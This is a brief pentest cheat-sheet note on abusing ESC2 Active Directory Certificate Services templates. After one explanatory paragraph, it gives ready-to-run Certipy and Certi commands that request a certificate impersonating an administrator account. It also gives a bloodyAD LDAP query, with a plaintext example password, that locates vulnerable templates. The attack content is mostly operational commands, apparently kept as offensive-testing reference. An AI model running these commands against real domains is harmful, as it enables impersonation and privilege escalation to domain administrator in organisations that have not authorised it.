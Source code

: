 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

In order to abuse ESC2 certificate templates, the requirements are similar to those in ESC1, but with one key difference: if the template specifies the EKU as "Any Purpose" or doesn't specify an EKU at all, the certificate becomes versatile and can be used for any purpose. 

# Abusing ESC2 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -alt 'xadmin@megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name 'xadmin@megacorpone.com' --template vulnerable-ec2-template`
## BloodyAD

- Source: https://github.com/CravateRouge/bloodyAD
- python bloodyAD.py -u alfred.simmons -p 'SuperSpawn123!' --host 172.21.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorpone,DC=com' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
